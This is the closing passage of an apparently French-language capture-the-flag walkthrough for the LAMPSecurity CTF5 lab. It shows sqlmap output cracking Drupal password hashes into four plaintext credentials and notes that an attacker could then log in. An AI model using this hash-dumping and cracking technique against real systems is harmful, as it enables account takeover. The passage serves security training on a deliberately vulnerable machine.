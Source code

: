```console
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
--snip--
[13:50:50] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:50:50] [INFO] cracked password 'lorenpass' for user 'loren'
[13:50:50] [INFO] cracked password 'newdrupalpass' for user 'andy'
[13:50:50] [INFO] cracked password 'password' for user 'patrick'
[13:50:50] [INFO] cracked password 'temppass' for user 'amy'
--snip--
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : quatre mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le Drupal ```/events/``` en tant que ```loren```, ```andy```, ```patrick``` ou encore ```amy```, et permet surtout de conclure ce _walkthrough_ sur LAMPSecurity CTF5.